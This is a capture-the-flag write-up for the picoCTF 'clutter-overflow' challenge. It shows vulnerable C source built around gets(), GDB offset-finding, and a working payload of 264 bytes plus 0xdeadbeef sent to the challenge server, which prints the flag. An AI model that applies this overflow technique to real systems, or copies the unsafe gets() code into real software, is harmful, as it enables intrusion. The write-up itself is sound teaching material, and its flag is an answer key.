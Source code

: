 ## Descripción
Clutter, clutter everywhere and not a byte to use.`nc mars.picoctf.net 31890`

## Pistas
- (None)

## Solución
We are given a 64-bit binary called `chall`:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)  
```

We also have the C source code. Basically, what the program does is call function `gets` and after that compare a local variable (`code`) with the value of a global variable (`GOAL`):

```
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = "...";

int main() {
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts(HEADER);
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);

  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);  
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```

The idea is simple: `gets` is vulnerable to Buffer Overflow, so we can write values on the stack. That way, we can overwrite the value of variable `code`:

Let’s debug it with GDB:

```
$ gdb -q chall
Reading symbols from chall...
(No debugging symbols found in chall)
gef➤  disassemble main
   ...
   0x000000000040074c <+133>:   call   0x4005d0 <gets@plt>  
   0x0000000000400751 <+138>:   mov    eax,0xdeadbeef
   0x0000000000400756 <+143>:   cmp    QWORD PTR [rbp-0x8],rax
   0x000000000040075a <+147>:   jne    0x40078c <main+197>
   ...
End of assembler dump.
```

We see that the local variable `code` is stored in `$rbp - 0x8`. So, let’s find the offset to reach register `$rbp` using a pattern string. We must use a string longer than 256 bytes (`0x100`), which is the length of the buffer shown in the source code:

```
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaa  
aauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
[+] Saved as '$_gef0'
gef➤  run
Starting program: ./chall
My room is so cluttered...
What do you see?
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaa
aauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
code == 0x6261616161616169
code != 0xdeadbeef :(

Program received signal SIGSEGV, Segmentation fault.
0x00000000004007c0 in main ()
```

```
gef➤  pattern offset $rbp
[+] Searching for '$rbp'
[+] Found at offset 272 (little-endian search) likely  
```

Perfect, we need 272 bytes to control `$rbp`. Thus, we need 264 (272 - 8) to reach the variable we want to modify. After the 264 characters, we must put `0xdeadbeef` in little-endian format to pass the check and read the flag:

```
$ (python3 -c 'import sys; sys.stdout.write("A" * 264)'; echo -e '\xef\xbe\xad\xde') | ./chall  
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
cat: flag.txt: No such file or directory
```

Nice, let’s send the payload to the remote instance:

```
$ (python3 -c 'import sys; sys.stdout.write("A" * 264)'; echo -e '\xef\xbe\xad\xde') | nc mars.picoctf.net 31890  
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Notas adicionales
- Sin notas

## Referencias 
- https://7rocky.github.io/en/ctf/picoctf/binary-exploitation/clutter-overflow/